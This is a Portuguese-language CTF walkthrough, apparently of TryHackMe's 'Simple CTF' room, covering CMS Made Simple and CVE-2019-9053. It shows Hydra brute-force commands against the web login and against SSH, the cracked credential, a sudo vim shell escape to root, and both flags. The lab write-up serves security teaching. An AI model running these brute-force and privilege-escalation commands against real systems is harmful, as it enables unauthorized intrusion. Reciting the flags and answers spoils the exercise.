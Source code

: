 ### ROOM SIMPLE CTF

#### Portas:
21/tcp   open  ftp     vsftpd 3.0.3
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)

#### Robots.txt:
http://10.10.187.106/robots.txt

#### Diretório oculto:
/openemr-5_0_1_3 

#### Site principal:
http://10.10.187.106/simple/

#### Aplicação:
Porta 80 - CMSMS (CMS Made Simple)

#### Vulnerabilidade:
CVE-2019-9053 - SQL Injection

https://nvd.nist.gov/vuln/detail/CVE-2019-9053
https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-9053

#### Exploit: 
https://www.exploit-db.com/exploits/46635
https://packetstormsecurity.com/files/152356/CMS-Made-Simple-SQL-Injection.html

#### Admin Control Panel:
http://10.10.168.186/simple/admin/login.php

#### FTP:
Como não encontrei nada que pudesse me auxiliar e os exploits tanto baixado do Exploit-DB, quando do Metasploit também não ajudaram, voltei ao inicio.

Então lembrei que tem uma porta 21 aberta para o ftp, acessei a porta (ftp 10.10.168.186) e encontrei um arquivo de texto "ForMitch.txt".
Dentro do txt, tem a seguite mensagem:

Dammit man... you'te the worst dev i've seen. You set the same pass for the system user, and the password is so weak... i cracked it in seconds. Gosh... what a mess!

Em pt-br: 
Dammit man... Você é o pior dev que eu já vi. Você define o mesmo passe para o usuário do sistema, e a senha é tão fraca... Eu quebrei em segundos. Deus... Que bagunça!

Já sei que o usuário tem uma senha fraca e que possívelmente o nome do desenvolvedor é mitch.

#### Postagens de usuários dentro do site:
Sempre é muito importante que quando se está fazendo pentest em uma aplicação web, é necessário procurar dentro do site, por possíveis usuários que tenham feito postagens dentro dele, como noticias e artigos, para que possamos tentar um futuro brute-force.

Olhando dentro do site, vimos postagens do mitch que é o desenvolvedor da aplicação.

E como mencionado na mensagem para ele, a senha dele foi quebrada fácilmente em segundos.

Então o próximo passo é fazer um brute-force na aplicação com o usuário mitch e uma wordlist.

#### Tentativas de exploitation
Antes de tentar o brute force eu tentei usar o exploit encontrado anteriormente, mas não funcionou, não encontrou o usuário e senha da aplicação.

python 46635.py -u http://10.10.168.186/simple/admin/

python 46635.py -u http://10.10.168.186/simple/admin/ --crack -w /usr/share/wordlists/rockyou.txt

#### Brute force:
Executado o brute-force através do hydra.
https://redteamtutorials.com/2018/10/25/hydra-brute-force-https/

hydra -v -I -l mitch -P /usr/share/seclists/Passwords/Common-Credentials/500-worst-passwords.txt 10.10.168.186 http-post-form "/simple/admin/login.php:username=^USER^&password=^pass^&loginsubmit=submit:incorrect"

Não consegui quebrar a senha de usuário do cms manager simple utilizando o Hydra, mesmo usando vários tipos de wordlists, só não usei o rockyou, por que iria demorar muito tempo para quebrar a senha.
Mas no arquivo "ForMitch.txt", diz que o dev usou a mesma senha para o usuário do sistema, então para validação eu usei o hydra para o SSH.

hydra -v -I -l mitch -P /usr/share/seclists/Passwords/Common-Credentials/500-worst-passwords.txt ssh://10.10.168.186 -s 2222

Quebrou a senha.
[2222][ssh] host: 10.10.168.186   login: mitch   password: secret

#### Validação das credencias:
Validado as credenciais com acesso ao SSH e ao /admin/login.php do cmsms.
ssh -p2222 mitch@10.10.158.248

#### User Flag:
/home/mitch/user.txt
G00d j0b, keep up!

#### Escalação de privilégios:
Executado o comando (sudo -l) e identificado que o binário do vim, tem permissão de executar como root.
sudo -l
User mitch may run the following commands on Machine:
    (root) NOPASSWD: /usr/bin/vim

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md#sudo
sudo -l
User mitch may run the following commands on Machine:
    (root) NOPASSWD: /usr/bin/vim

sudo vim -c '!sh'
id
uid=0(root) gid=0(root) groups=0(root)

#### Root flag:
/root/root.txt
W3ll d0n3. You made it!



Referências:
https://h4ckerjosh.com/write-ups-tryhackme-simple-ctf/
https://maggick.fr/2019/10/htb-writeup.html
